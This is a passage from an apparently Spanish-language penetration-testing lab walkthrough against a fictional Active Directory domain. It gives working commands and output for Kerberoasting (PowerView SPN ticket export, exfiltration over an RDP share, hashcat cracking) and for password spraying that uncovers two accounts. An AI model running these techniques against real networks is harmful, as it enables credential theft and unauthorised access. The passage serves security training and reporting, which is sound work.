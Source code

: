 ```r
vmwarescvc
```

Hay bastantes. Exportemos estos a un archivo CSV para procesarlo sin conexión.

  Share Hunting

```r
PS C:\DotNetNuke\Portals\0> Get-DomainUser * -SPN -verbose |  Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_spns.csv -NoTypeInformation

VERBOSE: [Get-DomainSearcher] search base: LDAP://DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainUser] Searching for non-null service principal names
VERBOSE: [Get-DomainUser] filter string: (&(samAccountType=805306368)(|(samAccountName=*))(servicePrincipalName=*))
```

Podemos descargar este archivo a través de la redirección de unidades RDP que configuramos anteriormente: `copy .\ilfreight_spns.csv \\Tsclient\Home`. Abrimos el archivo .csv usando LibreOffice Calc o Excel, sacamos los hashes y los agregamos a un archivo. Ahora podemos ejecutarlos a través de Hashcat para ver si podemos descifrar alguno y, de ser así, si son para cuentas privilegiadas.

  Share Hunting

```r
hashcat -m 13100 ilfreight_spns /usr/share/wordlists/rockyou.txt

hashcat (v6.1.1) starting...

<SNIP>

$krb5tgs$23$*backupjob$INLANEFREIGHT.LOCAL$backupjob/veam001.inlanefreight.local*$31b8f218c848bd851df59641a45<SNIP>:<redacted>
```

Un hash se descifra, pero al revisar en BloodHound, la cuenta no parece ser útil para nosotros. Aun así, podemos anotar otro hallazgo para `Weak Kerberos Authentication Configuration (Kerberoasting)` y seguir adelante.

---

## Password Spraying

Otra técnica de movimiento lateral que vale la pena explorar es Password Spraying. Podemos usar [DomainPasswordSpray.ps1](https://raw.githubusercontent.com/dafthack/DomainPasswordSpray/master/DomainPasswordSpray.ps1) o la versión de Windows de Kerbrute desde el host DEV01 o usar Kerbrute desde nuestro host de ataque a través de Proxychains (vale la pena probar todos).

  Share Hunting

```r
PS C:\DotNetNuke\Portals\0> Invoke-DomainPasswordSpray -Password Welcome1

[*] Current domain is compatible with Fine-Grained Password Policy.
[*] The domain password policy observation window is set to  minutes.
[*] Setting a  minute wait in between sprays.

Confirm Password Spray
Are you sure you want to perform a password spray against 2913 accounts?
[Y] Yes  [N] No  [?] Help (default is "Y"): y
[*] Password spraying has begun with  1  passwords
[*] This might take a while depending on the total number of users
[*] Now trying password Welcome1 against 2913 users. Current time is 11:47 AM
[*] SUCCESS! User:kdenunez Password:Welcome1
[*] SUCCESS! User:mmertle Password:Welcome1
[*] Password spraying is complete
```
